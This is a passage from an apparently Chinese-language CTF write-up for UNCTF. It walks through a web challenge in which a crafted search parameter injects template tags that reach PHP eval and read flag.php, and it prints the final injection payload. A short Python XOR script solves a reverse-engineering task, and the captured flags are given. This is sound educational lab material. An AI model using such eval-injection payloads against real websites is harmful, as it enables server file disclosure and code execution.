 然后$strIf被赋值为readfile(%27flag.php%27)

然后 @eval(“if(readfile(%27flag.php%27)) `{` $ifFlag=true;`}` else`{` $ifFlag=false;`}`”);

readlfile输出flag

最终payload：

```
searchnum=`{`end if`}`&amp;content=&lt;search&gt;`{`if`{`haha:type`}`&lt;/search&gt;&amp;type=:read`{`haha:typename`}`&amp;typename=file(%27flag.php%27)`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a43546f5bc598ac5.png)

flag：UNCTF`{`5ee25610af306b625b4cadb4cb5fa24b`}`



## RE

### <a name="header-n130"></a>666

逆向签到题，

主要函数

[![](https://p0.ssl.qhimg.com/t01acfae537b2029f57.png)](https://p0.ssl.qhimg.com/t01acfae537b2029f57.png)

然后找到一些关键值，再根据加密逻辑写解密脚本即可

```
exp：

cipher='''izwhroz""w"v.K".Ni'''
key=0x12
flag=''
for i in range(0,len(cipher),3):
    flag+=chr((ord(cipher[i])^key)-6)
    flag+=chr((ord(cipher[i+1])^key)+6)
    flag+=chr((ord(cipher[i+2])^key)^6)
print flag
```

得到flag：unctf`{`b666b666b`}`

### <a name="header-n138"></a>神奇的数组

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b1b5242af8d6740b.png)

打开主函数，读一下程序逻辑，结合大小端存储顺序。好的，flag就是checkbox里照抄。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01ea30e449f32cf1a9.png)
